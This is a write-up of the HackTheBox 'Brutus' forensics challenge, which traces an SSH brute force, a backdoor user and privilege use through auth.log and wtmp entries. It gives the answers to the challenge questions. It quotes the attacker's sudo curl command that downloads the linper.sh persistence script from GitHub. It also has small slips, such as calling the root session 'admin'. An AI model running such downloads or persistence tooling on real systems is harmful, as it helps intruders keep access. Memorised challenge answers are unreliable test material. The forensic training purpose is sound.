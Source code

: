 ```yaml
---
title: Brutus
date: 2024-12-13 11:00:00 +/-TTTT
categories: [DFIR]
tags: [htb]     # TAG names should always be lowercase
description: Brutus, very easy Sherlock on HackTheBox writeup
---
```


# Brutus

## Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.


1. Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?


Opening the logs we start looking for patterns, or rather deviating patterns. A brute force attack would have a lot of requests within a certain time span.
From the start of the log till 06:31:01 we see a lot of sessions opening and closing. After that we see that there are multiple attempts to login as an invalid user: admin. We can see that the attacker is using a different port for each attempt.

```
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
---
Mar  6 06:31:31 ip-172-31-35-28 sshd[2330]: Invalid user admin from 65.2.161.68 port 46422
Mar  6 06:31:31 ip-172-31-35-28 sshd[2337]: Invalid user admin from 65.2.161.68 port 46498
Mar  6 06:31:31 ip-172-31-35-28 sshd[2328]: Invalid user admin from 65.2.161.68 port 46390
Mar  6 06:31:31 ip-172-31-35-28 sshd[2335]: Invalid user admin from 65.2.161.68 port 46460

etc.
```

`65.2.161.68`

2. The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

Looking for the source IP of the attacker we can search for succesful login attempts. 


```
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
```

`root`

3. Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

In the zip file where two files: the _auth.log_ file, and also a wtmp file.
We can _parse_ the contents of this file using _utmpdump_. Looking for login sessions of root of the day of the attack and combing this with the source IP of the attacker(which is information we found in the previous tasks), we can find the timestamp: 
```
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
```

` 2024-03-06 06:32:45 `

4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

Looking through the logs we search for a succesful login of the _admin_ account. The catch is that the first time the admin user is logged in, its an automated login from the bruteforce attempt. The session gets killed shortly after.
So instead we look for a session which stays open, and actions are carried out by the attacker.

```
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

`37`

5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

Shortly after logging in manually, we can see the attacker adding an user.

```
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
```

 `cyberjunkie`

6. What is the MITRE ATT&CK sub-technique ID used for persistence?

Searching through the _persistance_ tactics we find that making a local account is in fact sub-technique ID _T1136.001_.

![[Pasted image 20241213121544.png]]

7. How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

We know from the wmtp file that the first terminal session started at _06:32:45_.
Before the user logs in with his new account he ends the session on the admin account at _06:37:24_:
```
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

Subtract the later from the first and you'll find that the session lasted 4 minutes and 39 seconds of _279 seconds_.



8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

Looking for an executed command as _cyberjunkie_ with _sudo_ we find the following entry in the auth.log:
`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

